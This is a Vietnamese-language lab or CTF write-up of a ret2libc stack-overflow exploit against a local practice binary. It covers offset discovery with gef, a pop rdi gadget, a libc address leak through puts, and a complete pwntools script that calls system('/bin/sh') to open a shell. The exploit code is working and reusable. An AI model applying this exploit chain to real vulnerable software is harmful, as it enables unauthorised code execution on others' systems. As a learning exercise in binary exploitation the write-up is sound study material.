

# Ret2libc
Đầu tiên sử dụng gef để tìm vị trí ghi vào ret.
```bash
grass@meow:~/CyStack$ gdb-gef ./ret2libc
gef➤  pattern create 200
gef➤  r
Starting program: /home/grass/CyStack/ret2libc 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
Try to exec /bin/sh
Read 201 bytes. buf is aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaa�
No shell for you :(

gef➤  pattern search $rsp
[+] Searching for '6e61616161616161'/'616161616161616e' with period=8
[+] Found at offset 104 (little-endian search) likely
```
Như vậy offset của chúng ta đang ở vị trí 104.
Bây giờ chúng ta cần sử dụng một số ROP gadget để leak địa chỉ của một hàm bất kì trong libc. Sau đó sử dụng hàm `puts` để in ra đại chỉ của hàm này trong libc. Ở đây em chọn hàm `printf`
Để in ra địa chỉ của hàm `printf` trong libc, ta cần phải truyền địa chỉ của `printf@got` vào bên trong `puts`. Trong kiến trúc x86_64, tham số được truyền thông qua thanh ghi nên ta cần phải truyền địa chỉ này vào bên trong $rdi. 
Do vậy ta cần tìm chuỗi "pop rdi" bên trong chương trình ret2libc. Bằng cách:
```bash
grass@meow:~/CyStack$ ROPgadget --binary ret2libc | grep "pop rdi"
0x00000000004006a3 : pop rdi ; ret
```
tiếp theo ta tìm địa chỉ của `printf@got` và `put@plt` với
```bash
gef➤  disass vuln
Dump of assembler code for function vuln:
   0x00000000004005c6 <+0>:	push   rbp
   0x00000000004005c7 <+1>:	mov    rbp,rsp
   0x00000000004005ca <+4>:	sub    rsp,0x60
   0x00000000004005ce <+8>:	lea    rax,[rbp-0x60]
   0x00000000004005d2 <+12>:	mov    edx,0x190
   0x00000000004005d7 <+17>:	mov    rsi,rax
   0x00000000004005da <+20>:	mov    edi,0x0
   0x00000000004005df <+25>:	call   0x4004a0 <read@plt>
   0x00000000004005e4 <+30>:	mov    DWORD PTR [rbp-0x4],eax
   0x00000000004005e7 <+33>:	lea    rdx,[rbp-0x60]
   0x00000000004005eb <+37>:	mov    eax,DWORD PTR [rbp-0x4]
   0x00000000004005ee <+40>:	mov    esi,eax
   0x00000000004005f0 <+42>:	mov    edi,0x4006c4
   0x00000000004005f5 <+47>:	mov    eax,0x0
   0x00000000004005fa <+52>:	call   0x400490 <printf@plt>
   0x00000000004005ff <+57>:	mov    edi,0x4006df
   0x0000000000400604 <+62>:	call   0x400480 <puts@plt>
   0x0000000000400609 <+67>:	mov    eax,0x0
   0x000000000040060e <+72>:	leave  
   0x000000000040060f <+73>:	ret    
End of assembler dump.

gef➤  disass 0x400490
Dump of assembler code for function printf@plt:
   0x0000000000400490 <+0>:	jmp    QWORD PTR [rip+0x200b8a]        # 0x601020 <printf@got.plt>
   0x0000000000400496 <+6>:	push   0x1
   0x000000000040049b <+11>:	jmp    0x400470
```
ta thấy địa chỉ của puts@plt là 0x400480 
địa chỉ của printf@got.plt là 0x601020

Chương trình sau sẽ lấy được địa chỉ của printf@got.plt tại thời điểm chương trình đang chạy
```py
from pwn import *

#p = gdb.debug("./ret2libc", gdbscript='b main')
p = process("./ret2libc")
padding = b"A"*104
pop_rdi = 0x00000000004006a3
print_at_got = 0x601020
puts_at_plt = 0x400480
main = 0x0000000000400610

# Craft the payload to leak the address of printf in libc
payload = padding
payload += p64(pop_rdi)
payload += p64(print_at_got)
payload += p64(puts_at_plt)
payload += p64(main)

# Send the payload
p.sendline(payload)
p.recvline()  # Discard data we don't need
p.recvline()  # Discard data we don't need
p.recvline()  # Discard data we don't need


leak = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"Leaked printf Address -> {hex(leak)}")
```

Kết quả:
```bash
grass@meow:~/CyStack$ python3 solve.py 
[+] Starting local process './ret2libc': pid 5337
[*] Leaked printf Address -> 0x7ff4914606f0
[*] Stopped process './ret2libc' (pid 5337)
grass@meow:~/CyStack$ python3 solve.py 
[+] Starting local process './ret2libc': pid 5341
[*] Leaked printf Address -> 0x7f1b806606f0
[*] Stopped process './ret2libc' (pid 5341)
grass@meow:~/CyStack$ python3 solve.py 
[+] Starting local process './ret2libc': pid 5345
[*] Leaked printf Address -> 0x7f216e0606f0
[*] Stopped process './ret2libc' (pid 5345)
```
tiếp theo lấy địa chỉ của printf bên trong libc với
```bash
grass@meow:~/CyStack$ readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 | grep printf
  2922: 00000000000606f0   204 FUNC    GLOBAL DEFAULT   15 printf@@GLIBC_2.2.5
```
Từ đó ta có thể tính toán địa chỉ base của libc tại thời điểm chương trình chạy bằng cách thêm đoạn code:
```py
setbuf_offset = 0x606f0  # Static offset of printf() in libc
libc_base = leak - setbuf_offset  # Calculate base address of libc
log.info(f"libc Base Address -> {hex(libc_base)}")
```
Chạy chương trình ta có:
```bash
grass@meow:~/CyStack$ python3 solve.py 
[+] Starting local process './ret2libc': pid 5548
[*] Leaked printf Address -> 0x7fec106606f0
[*] libc Base Address -> 0x7fec10600000
[*] Stopped process './ret2libc' (pid 5548)
grass@meow:~/CyStack$ python3 solve.py 
[+] Starting local process './ret2libc': pid 5552
[*] Leaked printf Address -> 0x7f119a8606f0
[*] libc Base Address -> 0x7f119a800000
[*] Stopped process './ret2libc' (pid 5552)
grass@meow:~/CyStack$ python3 solve.py 
[+] Starting local process './ret2libc': pid 5556
[*] Leaked printf Address -> 0x7f76d1a606f0
[*] libc Base Address -> 0x7f76d1a00000
[*] Stopped process './ret2libc' (pid 5556)
```

Tiếp tục tìm các địa chỉ cần thiết
```bash
grass@meow:~/CyStack$ readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 | grep system
  1481: 0000000000050d70    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5
grass@meow:~/CyStack$ strings  -a -t x /usr/lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
 1d8698 /bin/sh
```
tính toán địac chỉ của hàm `system()` và `"/bin/sh"` với:
```py
system_offset = 0x50D70  # Static offset of system() in libc
libc_system = libc_base + system_offset # Calculate the actual address of system() in libc
log.info(f"system Address -> {hex(libc_system)}")

binsh_offset = 0x1d8698  # Static offset of /bin/sh string in libc
libc_binsh = libc_base + binsh_offset
log.info(f"/bin/sh Address -> {hex(libc_binsh)}")
```

```bash
grass@meow:~/CyStack$ python3  solve.py 
[+] Starting local process './ret2libc': pid 5756
[*] Leaked printf Address -> 0x7f83064606f0
[*] libc Base Address -> 0x7f8306400000
[*] system Address -> 0x7f8306450d70
[*] /bin/sh Address -> 0x7f83065d8698
[*] Stopped process './ret2libc' (pid 5756)
```

Bây giờ ta đã tìm được đủ địa chỉ để tiến hành thực hiện stack overflow.
```py
ret = 0x0000000000400469
# ? Craft the payload to call system("/bin/sh")
payload = padding  # Pad the stack until the stored RIP
payload += p64(pop_rdi)  # Set the address of the string /bin/sh as the first argument of system()
payload += p64(libc_binsh)  # This will be the first argument of system()

# pop rip
payload += p64(ret) # Align the stack to 16 bytes otherwise system() will crash

payload += p64(libc_system)  # Call system()

# ? Send the payload
p.sendline(payload)

# ? Start an interactive session
p.interactive() 
```

Đến đây thì em đã thành công sử dụng system gọi "/bin/sh"
```bash
grass@meow:~/CyStack$ python3  solve.py 
[+] Starting local process './ret2libc': pid 5883
[*] Leaked printf Address -> 0x7f228a6606f0
[*] libc Base Address -> 0x7f228a600000
[*] system Address -> 0x7f228a650d70
[*] /bin/sh Address -> 0x7f228a7d8698
[*] Switching to interactive mode
Try to exec /bin/sh
Read 137 bytes. buf is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x89
No shell for you :(
$ whoami
grass
$ id
uid=1000(grass) gid=1000(grass) groups=1000(grass),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
$  
```


Mặc dù ret2libc của em ở đây đã đỏ lòm và thuộc quyền sở hữu của root nhưng vẫn không thể chiếm được root shell.
Trong quá trình tìm hiểu thì em nhận được câu trả lời là có thể do phiên bản của hệ điều hành ubuntu nên ta không thể chiếm được root shell theo cách này nữa. Để chiếm được root shell, ta cần thực hiện priveleged escalation, hoặc bên trong chương trình ret2libc trước khi compile có `suid(0);`;  hoặc là bằng cách nào đấy ta có thể sử dụng ROP để gọi `suid(0)`. 
Phần này em vẫn chưa tìm ra cách thực hiện
Mặc dù vậy em đã có thể sử dụng system để gọi "/bin/sh" nên là...

# Tham khảo
- https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/